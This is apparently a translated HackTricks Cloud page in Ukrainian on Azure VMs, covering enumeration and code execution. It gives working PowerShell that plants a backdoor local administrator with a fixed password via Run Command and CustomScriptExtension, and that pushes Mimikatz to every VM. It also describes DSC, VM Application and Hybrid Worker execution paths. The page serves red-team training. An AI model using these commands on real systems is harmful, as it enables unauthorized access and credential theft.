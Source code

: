 # Az - Віртуальні машини та мережа

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Віртуальні машини Azure є одним з кількох типів [ресурсів обчислення за запитом, що масштабується](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), які пропонує Azure. Зазвичай ви обираєте віртуальну машину, коли вам потрібен більший контроль над обчислювальним середовищем, ніж пропонують інші варіанти. Ця стаття надає інформацію про те, що слід врахувати перед створенням віртуальної машини, як її створити та як нею керувати.

## Інформація про мережу Azure

Мережі Azure містять **різні сутності та способи їх налаштування.** Ви можете знайти короткі **описи,** **приклади** та **команди перерахування** різних сутностей мережі Azure в:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** пропонує безпечне, повністю кероване рішення для доступу RDP (протокол віддаленого робочого столу) та SSH (захищена оболонка) через SSL через портал Azure. Він інтегрований у віртуальну мережу Azure, що дозволяє підключення RDP та SSH до ВМ, використовуючи приватні IP-адреси, уникаючи необхідності в публічних IP-адресах. Це робить його більш безпечним і зручним альтернативним варіантом традиційних методів, що включають призначення публічних IP-адрес і налаштування правил NSG для доступу до ВМ. Розробники та IT-персонал можуть безпечно отримувати доступ до ВМ з порталу Azure, використовуючи свої веб-браузери, спрощуючи процес для середовищ розробки та тестування.

Щоб перерахувати всі хости Azure Bastion у вашій підписці, ви можете використовувати наступну команду:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Перерахунок ВМ
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Запуск команд у VM**

### **AAD вхід у VM**

Можливо дозволити доступ користувачам, аутентифікованим через AzureAD. Наприклад, намагаючись отримати доступ до **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (важливо **використовувати електронну пошту** з azurecorp, коли намагаєтеся увійти) ви можете отримати помилку, як: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Просто **дотримуйтесь цих інструкцій**, перейшовши на [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) та вказавши код, використовуйте електронну пошту та пароль як облікові дані, і ви зможете підключитися через SSH (якщо у цього користувача є достатні права для цього: роль `Virtual Machine Administrator Login` або `Virtual Machine User Login`).

### **Запустити команду**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Запустіть розширення користувацького скрипта**

Azure віртуальні машини (VM) розширення - це **невеликі програми**, які забезпечують конфігурацію після розгортання та автоматизацію **завдань** на **Azure VMs**. Наприклад, якщо віртуальна машина потребує встановлення програмного забезпечення, антивірусного захисту або можливості виконувати скрипт всередині, ви можете використовувати розширення VM.

Отже, якщо у вас є доступ для запису, ви можете виконувати довільний код:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) - це інструмент PowerShell, подібний до Ansible, який використовується для налаштування хоста через код. DSC інтегрується з Azure, дозволяючи завантаження специфічних конфігураційних файлів. Ці файли повинні відповідати строгому синтаксису. Зокрема, розширення DSC в Azure може виконувати команди з файлів, які відповідають певним критеріям форматування, навіть якщо синтаксис не є правильним за стандартами DSC, як показано на наданій фігурі.

Виконання цих команд полегшується функцією [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) в Az PowerShell. Вимоги включають файл **.PS1** з визначеною функцією, і файл повинен бути стиснутий у файл **.zip**. Навіть якщо синтаксис може бути неточним для DSC, код все ще буде виконуватись. Однак розширення позначить статус виконання як "невдача", і жоден вихід з команди не буде видимим через те, що статус буде перезаписаний повідомленням про невдачу.

### VM Application Definitions

VM Application Definitions дозволяють повторюване розгортання версійованих додатків на Azure VM. Цей ресурс підтримує розгортання та оновлення додатків на VMs. Для налаштування цього процесу потрібно виконати кілька кроків, що включають команди **`New-AzGalleryApplication`** та **`New-AzGalleryApplicationVersion`** в Az PowerShell.

Виконання додатків або команд через цей метод передбачає **"VMAppExtension"**, яка автоматично встановлюється, коли додаток застосовується до VM. Розширення отримує файл з вказаного URI і називає його точно так, як додаток, без розширення. Щоб правильно виконати файл, поле "ManageActions" у виклику REST API повинно бути налаштоване для перейменування файлу з відповідним розширенням. Налаштування цього методу, після завершення, буде нагадувати структуру, показану на наданій фігурі.

Однак цей метод виконання є відносно повільним, займаючи близько 3-4 хвилин для виконання додатка або команди. Файли, пов'язані з цим процесом, зберігаються в специфічних каталогах (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` для копії додатка та `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` для статусу виконання).

Обидві техніки надають унікальні способи виконання команд і розгортання додатків в Azure середовищах, кожна з яких має свій набір вимог, кроків і міркувань.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) - це функція в Azure, яка дозволяє Runbooks, налаштованим в обліковому записі автоматизації, виконуватись на Azure Virtual Machine (VM), яка є частиною призначеної HWG. Це виконання полегшується через розширення, встановлене на VM, яке розгортає код Runbook на VM. Важливим аспектом цього процесу є те, що фактичні облікові дані не є фактором у виконанні, оскільки код виконується з підвищеними привілеями, зокрема як **SYSTEM** або root, як показано на наданій фігурі.

Ключовою деталлю для тих, хто використовує Windows 10 VMs, є необхідність вказати версію PowerShell для Runbook. Вона повинна бути налаштована на виконання як PowerShell Version 5.1 замість 7.1. Ця вимога виникає з того, що PowerShell 7.1 не встановлено за замовчуванням на цих VMs, що призводить до невдачі виконання скрипту, якщо вказана версія 7.1.

Ця функція Azure пропонує надійний метод для автоматизації та управління завданнями в гібридних середовищах, дозволяючи централізоване управління та виконання завдань на Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
